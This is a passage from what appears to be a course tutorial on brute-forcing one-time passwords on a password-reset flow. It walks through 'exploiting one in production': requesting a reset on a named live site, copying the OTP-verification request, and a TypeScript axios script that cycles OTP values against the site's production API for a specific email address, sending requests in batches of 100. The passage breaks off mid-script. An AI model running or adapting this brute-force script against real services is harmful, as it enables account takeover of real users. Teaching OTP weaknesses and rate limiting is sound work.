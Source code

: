 ```TypeScript
}

main()
```

💡

We’ve added batching here and we’re sending 100 req at a time

# Exploiting one in production

Try resetting password on [https://harkirat.classx.co.in](https://harkirat.classx.co.in/new-courses/2)

1. Go to the website

1) Put in a random users email

1. Send OTP

1) Try putting a random OTP

   1.

   ![1.00](https://www.notion.so/image/https%3A%2F%2Fprod-files-secure.s3.us-west-2.amazonaws.com%2F085e8ad8-528e-47d7-8922-a23dc4016453%2F6a05aa9e-bccf-461e-a03a-672049c8346c%2FScreenshot_2024-04-20_at_4.52.36_PM.png?table=block\&id=833b43e9-8283-4815-8fab-3e55a4618b7e\&cache=v2 "notion image")
   2\.

#### Exploiting it

* Copy over the request from the network tab as `curl`

- Paste it in Postman

![1.00](https://www.notion.so/image/https%3A%2F%2Fprod-files-secure.s3.us-west-2.amazonaws.com%2F085e8ad8-528e-47d7-8922-a23dc4016453%2Fc3725ac2-9a32-489b-877e-1a6a64aad083%2FScreenshot_2024-04-20_at_4.53.21_PM.png?table=block\&id=71c4d1cd-1d37-4b73-8125-3da191a5e1ea\&cache=v2 "notion image")

* Send a request via postman

- Export the request

  *

  ![1.00](https://www.notion.so/image/https%3A%2F%2Fprod-files-secure.s3.us-west-2.amazonaws.com%2F085e8ad8-528e-47d7-8922-a23dc4016453%2Fda6d3cec-d706-4dc7-82e4-49f2930fa706%2FScreenshot_2024-04-20_at_4.55.07_PM.png?table=block\&id=b02f2453-d025-41d4-a7ef-53e153b512de\&cache=v2 "notion image")

* Update the script to brute force on this endpoint

```TypeScript
import axios from "axios";

async function sendRequest(otp: number) {
  let config = {
    method: 'get',
    maxBodyLength: Infinity,
    url: 'https://harkiratapi.classx.co.in/get/otpverify?useremail=harkirat.iitr%40gmail.com&otp=' + otp,
    headers: {
      'accept': '*/*',
      'accept-language': 'en-GB,en-US;q=0.9,en;q=0.8',
      'auth-key': 'appxapi',
      'client-service': 'Appx',
      'device-type': '',
      'origin': 'https://harkirat.classx.co.in',
      'priority': 'u=1, i',
      'referer': 'https://harkirat.classx.co.in/',
      'sec-ch-ua': '"Chromium";v="124", "Google Chrome";v="124", "Not-A.Brand";v="99"',
      'sec-ch-ua-mobile': '?0',
      'sec-ch-ua-platform': '"macOS"',
      'sec-fetch-dest': 'empty',
      'sec-fetch-mode': 'cors',
```